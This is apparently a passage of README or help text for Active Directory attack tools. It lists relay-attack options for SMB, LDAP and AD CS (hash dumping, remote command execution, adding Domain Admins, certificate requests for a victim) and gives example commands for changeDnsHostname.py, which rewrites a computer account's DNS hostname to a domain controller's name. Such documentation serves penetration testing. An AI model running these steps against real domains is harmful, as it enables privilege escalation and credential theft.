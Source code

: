 ```
                        Hex-encoded password
  -s USERNAME, --krbsalt USERNAME
                        Case sensitive (!) salt. Used to calculate Kerberos keys.Only required if specifying password instead
                        of keys.
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target
                        parameter

SMB attack options:
  -e FILE               File to execute on the target system. If not specified, hashes will be dumped (secretsdump.py must be
                        in the same directory)
  -c COMMAND            Command to execute on target system. If not specified, hashes will be dumped (secretsdump.py must be in
                        the same directory).
  --enum-local-admins   If relayed user is not admin, attempt SAMR lookup to see who is (only works pre Win 10 Anniversary)

LDAP attack options:
  --no-dump             Do not attempt to dump LDAP information
  --no-da               Do not attempt to add a Domain Admin
  --no-acl              Disable ACL attacks
  --no-validate-privs   Do not attempt to enumerate privileges, assume permissions are granted to escalate a user via ACL
                        attacks
  --escalate-user ESCALATE_USER
                        Escalate privileges of this user instead of creating a new one
  --add-computer        Attempt to add a new computer account
  --delegate-access     Delegate access on relayed computer account to the specified account

AD CS attack options:
  --adcs                Enable AD CS relay attack
  --template TEMPLATE   AD CS template. Defaults to Machine or User whether relayed account name ends with `$`. Relaying a DC
                        should require specifying `DomainController`
  -v TARGET, --victim TARGET
                        Victim username or computername$, to request the correct certificate name.
```
## changeDnsHostname.py
modified from addspn.py

usage: 
```
changeDnsHostname.py [-h] [-u USERNAME] [-p PASSWORD] [-t TARGET] [-T TARGETTYPE] [-d DNSHOSTNAME] [-r] [-q] [-a]
                              HOSTNAME
example: 
  search: 
    python3 changeDnsHostname.py -u 'red.local\Computer1$' -p Password1 -t 'Computer1$' -q 10.10.100.67
  change:
   python3 changeDnsHostname.py -u 'red.local\Computer1$' -p Password1 -t 'Computer1$' -d 'DC01.red.local' -r 10.10.100.67
```
